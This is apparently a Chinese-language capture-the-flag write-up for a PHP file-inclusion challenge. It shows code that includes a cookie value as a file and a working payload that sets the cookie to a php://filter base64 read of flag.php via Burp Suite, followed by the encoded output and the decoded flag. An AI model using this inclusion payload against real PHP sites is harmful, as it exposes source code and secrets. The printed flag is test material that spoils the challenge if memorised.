 # fileinclude

题目


Notice: Undefined index: language in /var/www/html/index.php on line 9
Please choose the language you want : English or Chinese

Hi,EveryOne,The flag is in flag.php

---

查看源码

```html
<html>
<head><meta http-equiv="Content-Type" content="text/html; charset=utf-8" /></head>

<br />
<b>Notice</b>:  Undefined index: language in <b>/var/www/html/index.php</b> on line <b>9</b><br />
Please choose the language you want : English or Chinese
<h1>Hi,EveryOne,The flag is in flag.php</h1><html>
<head><meta http-equiv="Content-Type" content="text/html; charset=utf-8" /></head>

<?php
if( !ini_get('display_errors') ) {
  ini_set('display_errors', 'On');
  }
error_reporting(E_ALL);
$lan = $_COOKIE['language'];    
if(!$lan)
{
	@setcookie("language","english");
	@include("english.php");
}
else
{
	@include($lan.".php");
}
$x=file_get_contents('index.php');
echo $x;
?>
</html></html>
```
关键行 
```html
<b>Notice</b>:  Undefined index: language in <b>/var/www/html/index.php</b> on line <b>9</b><br />

$lan = $_COOKIE['language'];  
```
* lan 需要在cookie中的内容language 会被传到变量$lan
* 如果 变量lan 为 0 则 set cookie为 "language","english" 
* 如果为 非0，则执行
```
@include($lan.".php");
```
* 结合题目 flag 在 flag.php中
* 所以只需要将 lan 值 赋值为 “/var/www/html/flag”

---
### Brupsuit
![img.png](imgs/addcookies.png)


```
cookies
  Name：language
  Value：php://filter/read=convert.base64-encode/resource=/var/www/html/flag
```
* php://filter/read=执行文件读取功能
* convert.base64-encode
* forword之后 得到 字符串 base64 解码后得到flag

```
PD9waHANCiRmbGFnPSJjeWJlcnBlYWNlezlhOTJjYjE2YzNjM2NlMzY1M2E1ODYwYmIzYjE1NjAzfSI7DQo/Pg==

<?php
$flag="cyberpeace{9a92cb16c3c3ce3653a5860bb3b15603}";
?>
```